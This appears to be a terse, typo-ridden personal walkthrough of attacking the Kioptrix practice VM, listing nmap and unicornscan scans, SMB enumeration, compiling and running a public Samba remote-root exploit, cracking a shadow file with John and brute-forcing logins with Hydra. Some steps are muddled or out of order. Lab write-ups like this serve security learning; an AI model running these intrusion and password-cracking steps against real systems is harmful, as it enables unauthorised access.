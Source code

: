 ```yaml
---

keywords: nmap,kioptrix,unicornscan,smbclient,searchsploit,atftpd,netstat,nc, john_password,xhydra,thc_hydra,atftpd

---
```


[T1]

## Kioptrix

to make a vulnerability environment for testing.

### Steps for attacking

- [1] scanning

```bash
nmap -f -n -P0 -v -p- -T4 ip
```

### Fetch details of opend ports

```bash
# For udp ports
unicornscan -mT -r500 -I ip
```

### Detection of version of sw & opened ports

```bash
nmap -n -sTUV -pT:ports,U:ip1 ip2
```

### Gathering signals

#### nc

```bash
# connect to port 80
nc ip 80
```

#### ncat

```bash
# gather http signs
ncat ip
```
### smbclient

```bash
# connect to a fantastic port 139 
smbclient - ip -N
# L means I do not have a password
smbclient -L ip -N
```

Output Samba 2.2.1a. Now we are set to find vulnerabilities folowed version.

- [Exploit-DB](www.exploit-db.com)

Searching keyword Samba and port 139. [[exploit_remote]]

```bash
./searchsploit samba
# reports:
# samba 2.2.8 Remote Root Exploit -sambal.c
# /linux/remote/10.c
cp /pentest/exploits/exploitdb/platforms/linux/remote/10.c /root/10.c
# after review we must compile the file
nano 10.c
# q:
gcc 10.c -o SambaVuln10
# Compile the code:
./SambaVuln10
./SambaVuln10 -v -d0 -S ip
./SambaVuln10 -b0 -v ip
```
### After entered to remote sys

```bash
whoami
hostname
lastlog
```

Some clients have TFTP service. So, we can connect to them.

```bash
atftpd --daemon --port 69 --bind-address ip /tmp
netstat -anu | grep 69
```

Eventually, install pure-ftp on BackTrack OS. create a connection from BT OS to Kioptrix OS.
Finally:

```bash
cd /pentest/passwords/john
john /var/public/shadow
```

After coennect to the kioptrix We will use #THC_Hydra to hack passwords.

```bash
./SambaVuln_10 -b 0 ip
```

Alternatively we can use #Xhydra GUI to attack a machine with Port 22. protocol aftp. For now we can add showed password to BackTrack file: `passwords/wordlists/darkc0de.lst` in path of `/oentest/passwprds/wordlists`

Alternatively we can use Metasploit to save in database.

```bash
msfupdate
msfconsole
```